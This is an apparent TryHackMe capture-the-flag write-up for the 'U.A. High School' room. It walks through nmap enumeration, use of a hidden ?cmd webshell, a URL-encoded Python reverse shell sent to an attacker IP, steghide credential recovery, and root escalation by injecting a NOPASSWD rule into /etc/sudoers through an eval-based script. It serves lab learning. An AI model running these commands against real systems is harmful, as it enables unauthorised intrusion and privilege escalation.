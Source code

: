 ```yaml
---
clayout: ctf
title: U.A. High School
type: TryHackMe
date: 2025-03-05
level: Easy
icon: /ctf/tryhackme/high-school/icon-room.png
image: /ctf/tryhackme/high-school/icon-room.png
description: Welcome to the web application of U.A., the Superhero Academy.
ctf-link: https://tryhackme.com/room/yueiua
---
```


## Challenge description

Join us in the mission to protect the digital world of superheroes! U.A., the most renowned Superhero Academy, is
looking for a superhero to test the security of our new site.

Our site is a reflection of our school values, designed by our engineers with incredible Quirks. We have gone to great
lengths to create a secure platform that reflects the exceptional education of the U.A.

## Challenge overview

In this challenge, we are tasked with compromising the **U.A. High School** web server and escalating our privileges to
obtain the root flag. The target is a web server running Apache, and we will perform enumeration, identify
vulnerabilities, gain initial access, and escalate privileges to root.

## Enumeration

### Nmap

We start by scanning the target for open ports and services:

```bash
nmap -sC -sV -v -p- -oN high-school.nmap 10.10.25.111
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 582fec23baa9fe818a8e2dd89121d276 (RSA)
|   256 9df263fd7cf32462478afb08b229e2b4 (ECDSA)
|_  256 62d8f8c9600f701f6e11aba03379b55d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals two open ports:

- **22/tcp** (SSH): OpenSSH 8.2p1 Ubuntu 4ubuntu0.7
- **80/tcp** (HTTP): Apache httpd 2.4.41

### Web Enumeration

#### Discovering the Web Application

Visiting `http://10.10.25.111/` presents the **U.A. High School** homepage.

![U.A. High School home](/ctf/tryhackme/high-school/home-page.png)

The website contains multiple pages:

- **Home**: The main page of the website.
- **About**: Information about the academy.
- **Courses**: List of courses offered.
- **Admissions**: Details about the admission process.
- **Contact us**: Contact form to reach the academy.

Inspecting the source code reveals references to an `assets` directory:

```html
<link rel="stylesheet" href="assets/styles.css">
```

The `assets` directory also contains an `images` folder:

```html
background-image: url(images/yuei.jpg);
```

Attempting to access `http://10.10.25.111/assets/` results in an empty page, which is unusual because directories
typically return an error message when directory listing is disabled.

Adding `index.php` to the URL still results in an empty page:

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page.png)

#### Identifying Command Injection

Using `dirsearch` to brute-force file paths:

```bash
dirbsearch -u http://10.10.25.53/assets/index.php
```

We discover a `?cmd` parameter that allows command execution.

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-cmd.png)

However, the output is encoded in Base64. Decoding reveals:

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-base64.png)

We now have remote command execution.

### Obtaining a Reverse Shell

```bash
curl -s http://10.10.23.54/assets/index.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.11.125.246%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

We successfully obtain a reverse shell as `www-data`.

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-reverse-shell.png)

## Privilege Escalation

### Finding Credentials

Exploring `/var/www/`, we find a `Hide_Content` directory containing `passphrase.txt`:

![U.A. High School assets](/ctf/tryhackme/high-school/var-www-hide-content.png)

Decoding the Base64 content reveals:

![U.A. High School assets](/ctf/tryhackme/high-school/var-www-hide-content-passphrase.png)

We got the passphrase `AllmightForEver!!!`.

### Steganography on `oneforall.jpg`

A new image, `oneforall.jpg`, is found in `/var/www/images/`.

![U.A. High School assets](/ctf/tryhackme/high-school/images-folder.png)

The image could not load.

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall.png)

Using `steghide` to extract the hidden data, we see we need to enter a passphrase, using the passphrase we found
earlier, but we got an error message:

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall-steghide.png)

The `steghide: the file format of the file "oneforall.jpg" is not supported.` error message is interesting because it
means that the file is not a `jpg` file. Using `xxd` to see the file header, we see that the file is a `PNG` file:

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall-xxd.png)

Using `hexedit` to change the file from `89 50 4E 47 0D 0A 1A 0A` to `FF D8 FF E0 00 10 4A 46`, we can now see the
image:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall.png)

We can extract the hidden data using `steghide`:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall-steghide.png)

Looking a the `cred.txt` file we got the credentials for the `deku` user:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall-cred.png)

We can now login as `deku` and get the user flag:

```bash
$ ssh deku@10.10.25.53
deku@myheroacademia:~$ cat user.txt
THM{USER_FLAG}
```

## Privilege Escalation to Root

Checking sudo permissions:

```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku:
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

The script accepts user input and executes it with `eval`, making it vulnerable to command injection.

```bash
deku@myheroacademia:~$ cat /opt/NewComponent/feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

We inject a command to grant sudo access:

```bash
deku@myheroacademia:/opt/NewComponent$ sudo ./feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
deku ALL=NOPASSWD: ALL >> /etc/sudoers
It is This:
Feedback successfully saved.
deku@myheroacademia:/opt/NewComponent$ sudo cat /root/root.txt
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/

THM{ROOT_FLAG}
```